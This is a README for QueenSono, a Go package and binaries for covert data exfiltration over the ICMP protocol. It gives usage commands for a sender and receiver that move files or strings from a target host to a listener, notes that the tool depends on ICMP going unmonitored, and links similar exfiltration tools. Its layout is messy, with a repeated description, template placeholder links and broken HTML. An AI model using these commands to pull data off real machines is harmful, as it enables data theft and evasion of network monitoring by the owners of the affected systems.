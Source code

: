 # QueenSono
A Golang Package for Data Exfiltration with ICMP protocol. Try to imitate https://github.com/ytisf/PyExfil (and others) with the idea that the target machine does not necessary have python installed (so provide a binary could be usefupl)

***Notes:***
- only work on Linux 
- need cap_net_raw capabilities
- Only rely on the fact that ICMP protocol isn't monitored (could be detected with a rigorous inspection of ICMP packet content or frequency)

## ICMP
https://github.com/cyb3rw01f/icmpExfiltrater (avec command on serverside)
https://github.com/martinoj2009/ICMPExfil

## options
$ wget https://raw.githubusercontent.com/mxw/grmr/master/src/finaltests/bible.txt && ./qssender send file -d 2 -l 127.0.0.1 -r 10.0.2.15 bible.txt -s 50000
$ ./qsreceiver receive -l 10.0.2.15 -p -f received_bible.txt


$./qssender send "thisisatest i want to send a string w/o waiting for the echo reply " -d 1 -l 127.0.0.1 -r 10.0.2.15 go.mod -s 1 -N
$./qsreceiver receive truncated 1 -l 10.0.2.15

<p hidden>add encryption + integrity check</p>

<div align=center>
<h1>Queen Sono<h1>
</div>
 
<br />
<p align="center">

  <h2 align="center">QueenSono <i> ICMP Data Exfiltration </i></h2>
<h3align="center"> A Golang Package for Data Exfiltration with ICMP protocol. Try to imitate https://github.com/ytisf/PyExfil (and others) with the idea that the target machine does not necessary have python installed (so provide a binary could be usefupl)</h3>
  <p align="center">
    <br />
    <a href="https://github.com/othneildrew/Best-README-Template"><strong>How to install it</strong></a>
    <br />
    <br />
    <a href="https://github.com/othneildrew/Best-README-Template">Use it </a>
    ·
    <a href="https://github.com/othneildrew/Best-README-Template/issues">Notes</a>
    ·
    <a href="https://github.com/ariary/QueenSono/issues">Request Feature</a>
  </p>
</p>

